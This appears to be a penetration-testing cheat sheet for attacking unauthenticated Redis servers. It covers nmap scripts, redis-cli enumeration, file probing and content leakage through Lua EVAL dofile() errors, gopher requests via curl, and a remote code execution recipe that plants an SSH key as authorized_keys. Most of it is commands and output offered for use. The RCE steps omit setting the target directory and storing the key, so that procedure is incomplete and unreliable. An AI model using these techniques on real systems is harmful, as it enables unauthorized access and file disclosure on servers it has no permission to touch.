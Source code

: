 Redis Enumeration Tools

# Redis Enumeration Tools

### Nmap Enumeration
```
$ ls -lh /usr/share/nmap/scripts | grep redis
-rw-r--r-- 1 root root 2.8K Oct 12 09:29 redis-brute.nse
-rw-r--r-- 1 root root 6.9K Oct 12 09:29 redis-info.nse
```

```
$ nmap x.x.x.x -v -p 6379 --script=exampleScript1.nse,exampleScript2.nse
```

### Manual Connnection
```
$ telnet x.x.x.x 6379 
```

### echo test
```
$ telnet x.x.x.x 6379                                
Trying x.x.x.x...
Connected to x.x.x.x.
Escape character is '^]'.
echo test
$4
test
echo testing123
$10
testing123
echo "test"
$6
"test"
```

### redis-cli
```shell
> redis-cli -h x.x.x.x
x.x.x.x:6379> info                                  
# Server                                                 
redis_version:2.6.14                                     
redis_git_sha1:00000000                                  
redis_git_dirty:0                                        
redis_mode:standalone                                    
os:Linux 4.4.0-21-generic x86_64                                                                                  
arch_bits:64                                             
multiplexing_api:epoll                                   
gcc_version:5.3.1                                        
process_id:758                                           
run_id:ccdee3d16473ba7714fd06abd555f7dbaac5da3f                                                                   
tcp_port:6379                                            
uptime_in_seconds:1249993                                
uptime_in_days:14                                        
hz:10                                                    
lru_clock:312404 
```

Other enumeration commands:
`CONFIG GET pidfile`
`CONFIG GET dir`
`CONFIG GET dbfilename`
`CONFIG GET logfile`

### lua scripts

Redis can execute sandboxed Lua scripts through the "EVAL" command. `dofile()` is a command that can be used to enumerate files and directories; in older Redis version it is allowed by the sandbox.

Within redis-cli:
`EVAL "dofile('/var/')" 0`
- should return something like: `(error) ERR Error running script (call to f_de02e3f8f35b9def4742c4d51dd5b0e3e4b033e5): cannot read /var/: Is a directory ` confirming the directory exists. If not, the error would be "no such file or directory"

If the Lua script is syntactically invalid or tries to set global variables, some content of the target file will be leaked through the error messages. 

Examples:

```
EVAL "dofile('/etc/issue')" 0
(error) ERR Error running script (call to f_8a4872e08ffe0c2c5eda1751de819afe587ef07a): /etc/issue:1: '=' expected near '16.04' 
```
and
```
EVAL "dofile('/etc/lsb-release')" 0
(error) ERR Error running script (call to f_d486d29ccf27cca592a28676eba9fa49c0a02f08): /etc/lsb-release:1: Script attempted to access unexisting global variable 'Ubuntu' 
```
That gives us the info we're likely dealing with an ubuntu 16.04 machine. 

You can also interact with redis with curl and gopher:
```
# curl gopher://x.x.x.x:6379/_CONFIG%20GET%20dir --max-time 1
```

### Remote Code Execution
Source: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

Generate an ssh key:
```
$ ssh-keygen -t rsa -C "crack@redis.io"
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

Connect to redis and find a user directory with .ssh directory:
```shell
redis-cli -h x.x.x.x
x.x.x.x:6379> EVAL "dofile('/home/')" 0
(error) ERR Error running script (call to f_351f13c20f479b8ac8bde46fdc9b831d3b093b44): @user_script:1: cannot read /home/: Is a directory
x.x.x.x:6379> EVAL "dofile('/home/user/.ssh')" 0
(error) ERR Error running script (call to f_1508eef1e3b382e49753c37a8f507f0eb65ab351): @user_script:1: cannot read /home/user/.ssh: Is a directory 
```

Then write the authorized keys file and save:
```shell
x.x.x.x:6379> config set dbfilename "authorized_keys"
OK
x.x.x.x:6379> save
OK
```

Then connect via ssh:
```shell
ssh -i id_rsa user@x.x.x.x
```